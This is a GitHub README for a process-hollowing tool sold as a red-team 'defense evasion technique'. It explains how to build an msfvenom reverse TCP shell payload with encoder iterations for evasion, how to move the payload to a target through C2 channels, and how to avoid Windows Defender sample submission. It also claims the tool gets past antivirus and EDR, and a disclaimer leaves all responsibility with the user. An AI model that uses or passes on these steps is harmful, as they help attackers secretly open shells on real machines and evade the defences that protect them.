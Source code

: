 # Process-Hollowing-RedTeamOps
### Red Team Operation's Defense Evasion Technique for executing payload without raising flags on Target System.

## Kindly read [How To Use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use) !! - ***This is a Defense Evasion Technique so with time we add some suggestions for Red Team Ops to fulfill their primary objectives, so you can work Smoothly !!***

> [!WARNING]
> ## **This Binary made for Red Team Operations and user is only be responsible for the use, There's no liability of the Owner.**

# ***Made With ❤️ in 🇮🇳!!!***

### Credit of these Images goes to  their respective creators :relaxed:!!

![hollowing1-1_](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dd3cbd07-ebf0-447e-82f7-9b71384f9b00) 

![491809_1_En_10_Fig27_HTML](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/f972fda2-6e65-4bb8-86e5-5f984619f8fe)


![90540-1sncmwnz19drbfqzllk_d5w](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cdcee61d-1672-4bf6-9acc-2b952747e1cf)



We have both x86 and x64 bit release as you want. **we strongly suggest x64-bit release if you're confused about compiling manually.**

We suggest to use directly compiled executables as in some situations it depends on your compiler functionality. Both executables are stable and tested several times.


**If you wish to Compile x64 bit relese on Kali with cross-compiler - x86_64-w64-mingw32-gcc.** 

**For 32-bit - Mingw for Windows.**

# Index

* [Demo](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#demo)

* [How to use](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/blob/main/README.md#how-to-use)

## Tools Resources and skills used 

1. ChatGPT for researching about required Windows API and functionality.

2. Visual Studio Code - Linux and Windows.

3. Cross-compiler.
4. Process-Hollowing Technique working.

5. Deep-imagination .
6. Error-handling.
7. Programming Skills.
8. Time.
9. Defeating Failures.
10. Tons of Research.
11. Dedication.
12. Smart Work.

## Demo

![windows-hollow](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/cbc55b11-94c1-4416-a200-43f76abc9baf)

![kali](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/4a258dcc-0f40-4ec7-9422-1422a97686c9)

![win-update](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/a9421032-566d-49f0-a0a0-9857395a5624)


![firewall](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/96c3d3cd-6708-4640-83f0-e44c4a642907)


![windef-2](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/ca002758-e1e4-43b3-be87-7a59242f80f5)

![windows-def](https://github.com/vatsalgupta67/Process-Hollowing-RedTeamOps/assets/71017420/dc8b587a-10f4-4408-8203-539640b50cde)

# ⚠️How to use

> [!NOTE]
> ## Sometimes you have to Re-run the program because of Memory Issues. But do not worry, You'll get the shell on Re-run !!!  :nazar_amulet:


### Recommended to Turn-Off "Automatic Sample Submission" If you can or using in the testing environment.

***1. Generate a .bin file only - You can use C2 servers and metasploit too or any you want***

### Example - msfvenom -p windows/x64/shell_reverse_tcp LHOST=< IP > LPORT=< PORT > -f raw -i < iterations as you want for evasion > -e < encoder you want to use > > shell.bin - **x64-Bit**
  
 **2. Obfuscation is mainly your work to do as per your operation's requirement and the other one's? - WE'LL HANDLE!!!**
  
  ***3. Transfer Both Payload and Binary to Target System.***
  
  *4. Execute, But remember .bin files can evade better as per my Personal Experience so, just make your Payload Obfuscated for better Defense Evasion.*
  
  **5. After Execution, Payload will be run as your specified genuine windows executable ( system32's too ).**
  
  ***6. If you're injecting to custom binary - It might fails due to Memory allocation issue , still depends on your Privilege and many 3rd
level factors. But you can give it a try - In some cases it will work !! :nazar_amulet:***

***7. As we know EDR's and AV signatures keep updating, so we created an obfuscated release to assist you and have tested on the Latest Updated Windows . !!!***

 > [!IMPORTANT]
 > ## ⚠️**Keep few things in mind when using obfuscated release -**  

 * Never Directly Download Executable via Github on the target system, I found some bytes were missing - Technical Issue  + WindowsSmartScreen even mark genuine executables malicious too while downloading .EXE from Github. ( That's why Non-Malicious like WinPEAs , which is for PrivEsc too faces some windowsSmartScreen blockings ) 

* Best way is to Download from Github to your Kali Linux or any Attacker Machine first and then transfer it to Target System via C2 Channels or any you like. ( Invoke-WebRequest too )

* In this case you'll not face any problems regarding missing bytes or EDR. 

* Sometimes you have to apply many other ways to Bypass EDR and there's not always be a Signature-Patch issue. But there might be a Feature or some Technical problems like missing bytes of the binary, which restricting us.



